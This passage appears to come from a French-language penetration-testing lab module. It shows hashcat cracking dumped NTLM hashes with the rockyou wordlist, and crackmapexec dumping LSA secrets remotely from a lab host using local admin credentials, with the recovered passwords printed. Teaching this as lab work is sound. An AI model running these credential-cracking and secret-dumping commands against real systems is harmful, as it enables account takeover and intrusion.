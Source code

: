 Maintenant que les hachages NT sont dans notre fichier texte (hashestocrack.txt), nous pouvons utiliser Hashcat pour les casser.

### Exécuter Hashcat sur NT Hashes
Hashcat a de nombreux modes différents que nous pouvons utiliser. La sélection d'un mode dépend en grande partie du type d'attaque et du type de hachage que nous voulons craquer. Couvrir chaque mode dépasse le cadre de ce module. Nous nous concentrerons sur l'utilisation de -m pour sélectionner le type de hachage 1000 afin de casser nos hachages NT (également appelés hachages basés sur NTLM). Nous pouvons nous référer à la page wiki de Hashcat ou à la page de manuel pour voir les types de hachage pris en charge et leur numéro associé. Nous utiliserons la tristement célèbre liste de mots rockyou.txt mentionnée dans la section Stockage des identifiants de ce module.

```
dsgsec@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon          
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme         
184ecdda8cf1dd238d438c4aea4d560d:adrian          
31d6cfe0d16ae931b73c59d7e0c089c0:                
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: dumpedhashes.txt
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021

```

## Remote Dumping & LSA Secrets Considerations
Avec l'accès aux informations d'identification avec des privilèges d'administrateur local, il nous est également possible de cibler les secrets LSA sur le réseau. Cela pourrait nous permettre d'extraire les informations d'identification d'un service en cours d'exécution, d'une tâche planifiée ou d'une application qui utilise des secrets LSA pour stocker les mots de passe.
```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
```